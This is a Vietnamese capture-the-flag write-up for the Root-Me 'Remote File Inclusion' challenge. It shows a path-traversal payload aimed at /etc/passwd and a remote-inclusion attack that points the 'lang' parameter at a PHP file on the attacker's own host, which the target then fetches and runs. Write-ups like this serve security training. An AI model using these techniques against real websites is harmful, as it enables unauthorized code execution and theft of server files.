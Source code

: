# Remote File Inclusion

**Tên challenge:**  Abbreviated RFI

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)

**Tác giả challenge:** g0uZ

**Mục tiêu challenge:** Get the PHP source code.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, ta sẽ thấy có 2 lựa chọn ngôn ngữ khi truy cập vào trang web như sau:
	
![alt text](./images/image.png)

Khi thử click 1 trong 2 lựa chọn thì trang Web sẽ chuyển đổi ngôn ngữ dựa theo lựa chọn mà ta click. Đồng thời, URL của Website cũng sẽ xuất hiện parameter `lang` như sau:
```
http://challenge01.root-me.org/web-serveur/ch13/?lang=en
```

Nhìn vào parameter `lang`, ta có thể liên tưởng đến các kịch bản lỗi bảo mật liên quan như Path Traversal, Local File Inclusion,...

**B2:** Ta thử payload `../../../../../../../../../../../etc/passwd`, để xem Website có trả về nội dung file `passwd` không

Tuy nhiên, trang Web chỉ trả về dòng lỗi sau:
```
Warning: include(): open_basedir restriction in effect. File(../../../../../../../../../../../etc/passwd_lang.php) is not within the allowed path(s): (/challenge/web-serveur/ch13) in /challenge/web-serveur/ch13/index.php on line 18

Warning: include(../../../../../../../../../../../etc/passwd_lang.php): failed to open stream: Operation not permitted in /challenge/web-serveur/ch13/index.php on line 18

Warning: include(): Failed opening '../../../../../../../../../../../etc/passwd_lang.php' for inclusion (include_path='.:/usr/share/php') in /challenge/web-serveur/ch13/index.php on line 18
```

Nếu ta để ý, ta sẽ phát hiện `/etc/passwd` lúc bấy giờ đã được gán thêm đuôi `_lang.php`.

=> Xem ra, ta không thể lợi dụng để đọc được 1 file mà bất kỳ ta muốn vì không phải file nào cũng có dạng `_lang.php` ngoài 2 file ta đã biết: `en_lang.php` và `fr_lang.php`

Tuy nhiên, khi ta nhìn thử vào đoạn lỗi thì ta phát hiện đoạn code xử lý dùng hàm `include` kèm với parameter `lang` để lấy nội dung của file đó.

**Cụ thể:** Trong trường hợp này, parameter `lang=en` khi ta click vào lựa chọn English đã đưa giá trị của `lang` vào hàm `include` để xử lý

=> Có thể đoạn code có dạng sau:
```
$test = $_REQUEST["lang"];
Include($test."_lang.php");
```
Với giá trị `$test="en"` đoạn code `include` hoàn chỉnh là:
```
Include("en_lang.php")
```
Như ta đã biết, hàm `include` có thể lấy file từ URL bên ngoài (remote URL) nếu nội dung trong file có chứa cú pháp **PHP** hợp lệ.

Vậy thì sẽ ra sao nếu ta Upload 1 file có dạng `test_lang.php` lên Website Attacker của mình. Rồi ở parameter `lang` thì ta sẽ đưa đường dẫn URL đến file `test_lang.php`. Liệu Website có thực thi nội dung trong file đó không ?

**B3:** Ta tạo 1 file `test_lang.php` với nội dung:
```
<?php phpinfo();? ?>
```
**B4:** Ta Upload file đó lên Web bên ngoài của ta

**B5:** Ta đổi giá trị `lang` thành: `https://web_cua_ta.com/test`

* **Lưu ý:** Chỉ nên để `test`, vì nếu để `test_lang.php` trong payload URL thì trang Web Challenge sẽ lại nối đuôi giá trị `lang` thành `test_lang.php_lang.php`, dẫn đến lỗi vì trên Website của mình không có file nào tên vậy.

![alt text](./images/image-1.png)

=> Vậy là ta đã thực thi thành công code trên Website.

Tiếp theo, ta chỉ cần đọc file `index.php` thôi.

<u>**Thông tin thêm:**</u> Do Website đã filter các hàm dùng để thực thi Command OS nên ta chỉ có thể dùng hàm `file_get_contents("./index.php")` trong PHP để đọc nội dung file rồi in ra thôi.